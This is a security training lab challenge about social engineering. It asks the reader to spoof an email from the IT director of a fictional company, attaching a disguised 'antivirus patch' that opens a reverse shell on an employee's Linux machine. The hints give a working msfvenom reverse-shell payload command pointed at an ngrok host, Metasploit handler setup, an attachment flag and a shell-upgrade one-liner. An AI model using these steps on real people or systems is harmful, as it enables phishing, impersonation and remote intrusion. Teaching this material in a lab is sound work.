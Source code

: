 # Social Engineering Challenge 3

----------------------

For this one, we're going to target Kylo Solo's trust in his boss, IT Director Scotty LaForge.

Your goal is to send an email TO Kylo Solo, FROM his boss Scotty, with an evil attachment. You should say the attachment is a patch Kylo needs to run to update his antivirus, or some such thing. 

Your attachment should be booby-trapped; it should grant you access to his machine using a reverse shell, or some such thing.

Frank Johnson (Chief Security Officer, Veritas Inc.)

NOTE - Kylo is super eager to please his boss. He will immediately open and run all attachments you send him. In this case, he doesn't have java/flash/a pdf reader installed, so you should probably send him a binary. Note that he's running a linux x64 machine.

----------------------

Stuck? 
----------------------
<details> 
  <summary>Click for hint 1</summary>
  
  msfvenom (which is installed on Kali linux) is an app that lets you craft a binary for any target OS/architecture. For Kylo, be sure to target x64 architecture and the linux platform. 
  
  msfvenom --platform linux -p linux/x64/shell/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=19358 -b "\x00" -f elf > ~/Desktop/runme

</details>

<details> 
  <summary>Click for hint 2</summary>
  If you use a shell/reverse_tcp exploit, you will need a publicly visible LHOST and LPORT (ngrok is great for that) when crafting the binary with msfvenom. Use something like `./ngrok tcp 443` to get your publicly available LHOST and LPORT.
  
  Then when using msfconsole to listen for the exploit's response, your LHOST and LPORT values there will be your localhost ones that ngrok points to - so LHOST for msfconsole should be 127.0.0.1 and LPORT 443. To get started in msfconsole, run `use exploit/multi/handler` and set your payload to the same one you ran in msfvenom - that should set it up to listen properly.
</details>

<details> 
  <summary>Click for hint 3</summary>
  To add an attachment in sendEmail, all you have to do is this: `-a "/root/Desktop/runme"` where runme is the executable file you want attached.
</details>

<details> 
  <summary>Click for hint 4</summary>
  If you obtained a shell to the remote server by using a reverse/tcp payload, it's not very pretty - make it more functional and pretty by running this in it:
  
  ```
  python -c "import pty; pty.spawn('/bin/bash');"
  ```
</details>



